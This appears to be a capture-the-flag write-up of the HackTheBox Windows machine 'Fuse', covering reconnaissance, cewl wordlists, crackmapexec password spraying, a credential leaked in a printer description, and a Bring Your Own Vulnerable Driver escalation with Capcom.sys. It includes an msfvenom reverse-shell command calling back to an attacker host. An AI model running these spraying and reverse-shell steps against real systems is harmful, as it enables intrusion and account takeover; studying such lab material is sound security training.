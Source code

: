 ```yaml
---
title: "HackTheBox: Fuse - OSCP Prep"
categories:
  - CTF Writeups
toc: true
---
```


This is a 'medium' rated HTB Windows challenge featuring an interesting PE technqiue, Bring Your Own Vulnerable Driver (BYOVD).

# Reconnaissance

## Nmap

`nmap -p- -sV -sC -T4 10.10.10.193 -Pn -n -o full_thorough.log
`
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-10-14 16:25:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp   open  ���7�U       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49675/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T16:26:02
|_  start_date: 2023-10-14T16:19:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-10-14T09:26:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h33m02s, deviation: 4h02m32s, median: 13m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

From this scan we can add `fabricorp.local` and `fuse.fabricorp.local` to our hosts file.

### SMB

Let's try see if guest/null authentication is enabled.

![1](/assets/images/Fuse/Pasted image 20231014172549.png)

It looks like credentials `:` don't give an error. Let's see if we can enumerate any information from this. 

![[/assets/images/Fuse/Pasted image 20231014172649.png]]

No luck!

### Web

The webserver on port 80 is hosting a PaperCut Print Logging service. From this page we can discover a list of usernames.

![2](/assets/images/Fuse/Pasted image 20231014172739.png)
![3](/assets/images/Fuse/Pasted image 20231014172814.png)
![4](/assets/images/Fuse/Pasted image 20231014172823.png)
![5](/assets/images/Fuse/Pasted image 20231014172832.png)


```
sthompson
bhult
administrator
tlavel
pmerton
bnielson
```

# Initial Access

## AS-REPRoasting

We can check if any of these users are AS-REPRoastable or have the AD attribute `Don't require Kerberos pre-authentication` set. This would allow us to recover a password hash and possibly crack it.

![6](/assets/images/Fuse/Pasted image 20231014173153.png)

No luck. Instead we can try a password spray attack.

## Password Spray

First we need to generate a wordlist. You can create a custom wordlist with `hashcat` rules, or use a tool like `cewl` to crawl the webserver and scrape for possible passwords.

`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 5 -m 5 -x 12 --with-numbers | tee pwds.txt`

Now with the wordlist generated we can attempt to password spray.

`crackmapexec smb fabricorp.local -u users.txt -p pwds.txt`

There was a lot of interesting results for password `Fabricorp01`. It looks like multiple users: `bhult`, `tlavel` and `bnielson` all have this password, but it's expired.

![7](/assets/images/Fuse/Pasted image 20231014180419.png)

We can change passwords using the `impacket-smbpasswd` tool!

![8](/assets/images/Fuse/Pasted image 20231014181036.png)

After changing the password we can login to RPCClient and use the `enumdomusers` command to dump all domain users.

![9](/assets/images/Fuse/Pasted image 20231023130616.png)

We can see there are two printing related user accounts (`svc-print`, `svc-scan`). Let's use the `enumprinters` to see if there is any domain joined printers.

![10](/assets/images/Fuse/Pasted image 20231023145417.png)

Interesting. In the description of the printer we can see credentials `$fab@s3Rv1ce$1`. Let's password spray with this now.

![11](/assets/images/Fuse/Pasted image 20231023145524.png)

![12](/assets/images/Fuse/Pasted image 20231023145540.png)

It looks like `$fab@s3Rv1ce$1` works as a password for both `svc-print` & `svc-scan` over SMB, and also `svc-print` can WinRM onto the box. In `svc-print`'s Desktop folder we can recover the `user.txt` flag!

# Privilege Escalation

Investigating the permissions of the `svc-print` user reveals we have the ability to load drivers with the `SeLoadDriverPrivilege`. 

![13](/assets/images/Fuse/Pasted image 20231024122149.png)

## BYOVD

We can perhaps use a Bring Your Own Vulnerable Driver (BYOVD) technique. BYOVD is an sophisticated technique where adversaries will bring a legitimate signed vulnerable driver onto a comprimised machine, load the driver, and then exploit that drivers vulnerability to execute code in kernel mode with high permissions.

First, I'll use the [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) tool to load our vulnerable driver, `Capcom.sys`. I cloned the `EoPLoadDriver` repositry and compiled the C++ code to make a x64 executable `LoadDrivers.exe`.

![14](/assets/images/Fuse/LoadDriver.png)

Now with the vulnerable driver `Capcom.sys` loaded, we can exploit it!

I started by generating a reverse shell payload:

`msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.10.x.x -f exe -o rev.exe`

With this generated we can clone the exploit source code from [here](https://github.com/tandasat/ExploitCapcom), and edit line 410 from the source code to run our payload, `rev.exe`, upon execution of the Capcom exploit. 

![15](/assets/images/Fuse/Source.png)

![16](/assets/images/Fuse/exploit.png)

![17](/assets/images/Fuse/pe.png)

From the above we can see the reverse-shell listner got a succesful call-back and we got rewarded with a shell as `nt authority\system`!

Hope you enjoyed this writeup!
